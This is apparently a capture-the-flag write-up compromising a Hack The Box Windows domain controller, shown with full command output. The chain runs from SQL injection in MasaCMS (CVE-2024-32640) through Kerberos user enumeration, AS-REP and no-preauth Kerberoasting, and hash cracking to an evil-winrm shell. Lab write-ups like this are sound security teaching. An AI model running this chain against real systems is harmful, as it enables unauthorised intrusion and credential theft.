


#### User

Doing a portscan, it's most definetly a Windows machine:
```
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 4FA8ED211AE09FDA79B47EA41DDD857A
| http-robots.txt: 6 disallowed entries
|_/admin/ /core/ /modules/ /config/ /themes/ /plugins/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Freedom Blog - Freedom
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-14 23:30:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freedom.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: freedom.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Checking out the webserver first, not much of interest.



I run a ffuf scan to find any directories of interest.

I find a `/admin` endpoint and find the CMS that's running, MasaCMS.



I look for any existing explloits in MasaCMS and there is a 2024 CVE: CVE-2024-32640 with a [PoC](https://github.com/pizza-power/CVE-2024-32640) and a [blog about the PoC](https://www.pizzapower.me/2024/11/13/mura-masa-cms-sql-injection-cve-2024-32640/).

I test the PoC to try get the current user.

```bash
$ python3 CVE-2024-32640.py --url http://freedom.htb/
[+] The target http://freedom.htb/ is vulnerable to SQL injection.
$ python3 CVE-2024-32640.py --url http://freedom.htb/ --dump dbname
Extracting DATABASE() for http://freedom.htb/...
Extracted so far for DATABASE(): d
Extracted so far for DATABASE(): db
Extracted so far for DATABASE(): dbM
Extracted so far for DATABASE(): dbMa
Extracted so far for DATABASE(): dbMas
Extracted so far for DATABASE(): dbMasa
Extracted so far for DATABASE(): dbMasaC
Extracted so far for DATABASE(): dbMasaCM
Extracted so far for DATABASE(): dbMasaCMS
DATABASE() extracted: dbMasaCMS
```

Now we can try extract some information, I look at the [source code for MaxaCMS](https://github.com/MasaCMS/MasaCMS) and find where the users are stored in the schema: [`tusers`](https://github.com/MasaCMS/MasaCMS/blob/0f6f90166fc46717e49c23ecb8c70165dc191342/core/setup/db/mysql.sql#L870).

```sql
CREATE TABLE `tusers` (
  `UserID` char(35) character set utf8 NOT NULL default '',
  `GroupName` varchar(255) character set utf8 default NULL,
  `Fname` varchar(50) character set utf8 default NULL,
  `Lname` varchar(50) character set utf8 default NULL,
  `UserName` varchar(255) character set utf8 default NULL,
  `Password` varchar(50) character set utf8 default NULL,
  `PasswordCreated` datetime default NULL,
  `Email` varchar(255) character set utf8 default NULL,
  `Company` varchar(50) character set utf8 default NULL,
  `JobTitle` varchar(50) character set utf8 default NULL,
  `mobilePhone` varchar(50) character set utf8 default NULL,
  `Website` varchar(255) character set utf8 default NULL,
  `Type` int(10) default NULL,
  `subType` varchar(50) character set utf8 default NULL,
  `Ext` int(10) default NULL,
  `ContactForm` longtext,
  `Admin` int(10) default NULL,
  `S2` int(10) default NULL,
  `LastLogin` datetime default NULL,
  `LastUpdate` datetime default NULL,
  `LastUpdateBy` varchar(50) character set utf8 default NULL,
  `LastUpdateByID` varchar(35) character set utf8 default NULL,
  `Perm` tinyint(3) default NULL,
  `InActive` tinyint(3) default NULL,
  `isPublic` int(10) default NULL,
  `SiteID` varchar(50) character set utf8 default NULL,
  `Subscribe` int(10) default NULL,
  `notes` longtext,
  `description` longtext,
  `interests` longtext,
  `keepPrivate` tinyint(3) default NULL,
  `photoFileID` varchar(35) default NULL,
  `IMName` varchar(100) character set utf8 default NULL,
  `IMService` varchar(50) character set utf8 default NULL,
  `created` timestamp NULL default CURRENT_TIMESTAMP,
  `remoteID` varchar(35) default NULL,
  `tags` longtext,
   PRIMARY KEY  (`userID`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;
```

I extract the `Email` and `Password`'s of the users using the `sqlamp` PoC provided on the blog post, but the hashes were uncrackable.

I grab the First and Last names of the users instead, which is this:
```
| Admin     | User  |
| Esmeralda | Tylar |
| George    | Smith |
| Gregory   | Davis |
| Jennifer  | Jones |
| Justin    | Bret  |
```

I was introduced to a new tool, username-anarchy for creating a list of usernames from First+Last name.

I attempted to enumerate the usernames with ldapsearch but required auth, so we can use kerbrute instead on the Kerberos port.

I setup my `users.txt`:
```bash
$ ./username-anarchy Esmeralda Tylar >> ../../users.txt                                                         
$ ./username-anarchy George Smith >> ../../users.txt
$ ./username-anarchy Admin User >> ../../users.txt
$ ./username-anarchy Gregory Davis >> ../../users.txt
$ ./username-anarchy Jennifer Jones >> ../../users.txt
$ ./username-anarchy Justin Bret >> ../../users.txt
$ ./kerbrute userenum -d freedom.htb --dc freedom.htb ../../users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/18/24 - Ronnie Flathers @ropnop

2024/12/18 01:15:09 >  Using KDC(s):
2024/12/18 01:15:09 >   freedom.htb:88

2024/12/18 01:15:09 >  [+] VALID USERNAME:       e.tylar@freedom.htb
2024/12/18 01:15:09 >  [+] VALID USERNAME:       j.bret@freedom.htb
2024/12/18 01:15:09 >  Done! Tested 88 usernames (2 valid) in 0.128 seconds
```

Cool! So, what can we do with these users, Kerbrute looks for pre-auth so we could try those usernames with impacket's `getNPUsers.py`.

```bash
$ ./GetNPUsers.py freedom.htb/ -dc-ip freedom.htb -usersfile ../../../../users.txt -format hashcat -outputfile hashes.txt

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$e.tylar@FREEDOM.HTB:cb72191015b9806654bf071972a4c7ac$cd12a046731ce507b3a7fd03662ff99855f8e525b545c133a92f4dd10375526edbe845926fc925a22d9d3c5b726a45181445a04872dbfd96e21300c153c591bad2ebf23a3635300cd1377215061563b3ca7f687c764035cf50ffc2bb0dc8deac9bcbda8bee4c9eb1b8b0843aad18dc450c93e44b8cdcbdba51153490038a281714b2db35ebfc784fef2ce4da863c0385884d6a6491a7ab080c895a5b94165786902d2aa061e8db20dd500fa275e59d0695529ac53765701abcd870da5d27a7f0f92e0b67f392ad0ef653c0602d2d36364df45b7ba59642b18e3f2785c532a488258e94edd107edd5d5ae
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Hash! Let's crack it...

... or not, it's not in `rockyou.txt` or `top-10-million-passwords.txt`.

We got stuck here for a long time until after, lots of research, I discovered [Kerberoasting w/o a domain account via AS-REQ](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication) while sitting on the toilet for a bathroom break...

Using the latest impacket we can get a TGS instead for other users.

```bash
$ ./GetUserSPNs.py -no-preauth "e.tylar" -usersfile ../../../../users.txt -dc-host freedom.htb freedom.htb/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

...
$krb5tgs$23$*j.bret$FREEDOM.HTB$j.bret*$b76817fe33f15f5563d2ddc9f3257013$fcbbea955526558c5dcc7ec21941d00ce4850fba23b0ff34428bea74de08684f9b0f82ce7ec191f4323659a5877fab84ff6a86b98764905e5a0a891ab3029c9a00e63f0832b6a9f306146edef6631f4da0f7703b35941a93f90357c1b083da6b7210dabd47f4fbc76a8f9edd00496b0ce7a7d6a8c94aa1c844f0b923793f3ccdd24280e10a881458a1570b58a444ede29dafb89f70223597cd513561294b0c0db8869d02551c34f799b117018e06c1169ce10a03a186e3f8c7014568f4bd9b45e791b4995f3b28edb5a92f06906e19344fbf93e1b630cbfc3fd584f1aea2e8f80c0a5ba1c58d264a591965a4ae01d34fa15c047423ae9d00795f5e1f5c50fa1c0e37db273d7a8bce1ab78e011988f06b7fc0657a86676bde9a8da25eb002e51d36827c27aac17864b4b3e640f9912d48be2770aa45401faac8759c2a4eb1da783823b0e40ec5df6b7b8c3283898329ff28d3c1593758ef46fef64bdfb6bf9d66a769c0baeca6fb395cca4cb744a320f6186429db2adc2bd7a92eef9053dc1f4ad196c19709a36a838ebc3cd5ad3a7370aa33e1b7485b0308fa5a32d40b5c5ec3f12994b1563b02bb9085757a29f4e147a64989d07f26bdb880205fcf6b1ddafa0ab640224982793b30bf95cb40386e9540b68c6128b2de57b60de5d5e6460db034ec09a62e2ac7f81336b610e9a58e5fd234cd3e275a306acd56ab0df6952ef7afb7bb2c78d8a9b8f7b2c938e6f4e50fe368365690560914dd29ce8ad6759ab11609df1a1e7d3997d5e7de57f6e6faff81ddbc436e7aa03732411aed3c227c9ee5f8d2ae12d7d4421492eace38f4f17ef9a0b76e712cb2fff6a1765633af6179180ab66b50a1196294350795933bac3bad9c07935809b4b702eee8f25d482c71c3729b61b5b18529b61cc14993cf7964b0c176c2a4b35e5ad369895ad7c1ad5c9bdbfc2e8e1953d73360d19416f996222c63f54a4cd0a015003217a8e1d0260c6b2705387be0d5b7b19be81ce5ee6cb89740c889aa43b62dec5e2d572a6bf5160b8fbe477b4a68aad1dc014d4ae97f73e2ed3f78a693353fa502d2991e0c270049d9eaa5db3ee296051810e647ae2b2f5b08101c9b0de33383e5ddf3036a8942e3faff491d24c814a7862ff3d60b2568299e4a06cf3d0954967e7987fd0dddfb14c0f7fcca65de25a95b4edb26be1df9ec35af2ca0fe5012f8833b98c419733a4e57740d97434ffd9358d020ec3a6db82be6ffcf1195ff54736944ed6d8e1ec8611de710e04a260307ad42dfd602c1ae8f03dae865d05488497d7720013f6830e3398b454852ed30cf4818f5c995f9499122c8fa208fcf2024fd4bdbbd7b91e0d3d24e05a077760e3f066b6c3b8b070a384bd3d2ade60ab4db2a7e19472f19f365f086549cce071333f10d970eec96be57fdc70976ad93c04d9e8bc2b74b2d99551c3af12922ae42d9b5742fd6fb4a84e748c7781c7ba527b94e9df612e1e7097725c50b79d09a2febdd55
...
```

Cracking the TGS we get a password: `swordsoffreedom`, we can use this with evil-winrm to get user.

```bash
$ evil-winrm -i freedom.htb -u j.bret -p swordsoffreedom
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\j.bret\Documents> cat ../Desktop/user.txt
HTB{c4n_y0u_pl34as3_cr4ck?}
```

User Flag: `HTB{c4n_y0u_pl34as3_cr4ck?}`

#### Root

> From here on was information from other writeups after the CTF concluded!

Investigate the service running "health" (there was a HealthCheck.exe in the Desktop)

It starts creating a new handle process with full access, then it's creating a lower privileged process (but inheriting all the open handles of the main process).

You can exploit Leaked Handles using LeakedHandlesFinder, but it's easy to make your own exploit.

There was also an unintended to abuse the SQLi to get the reset token of the admin and upload a malicious plugin to MasaCMS.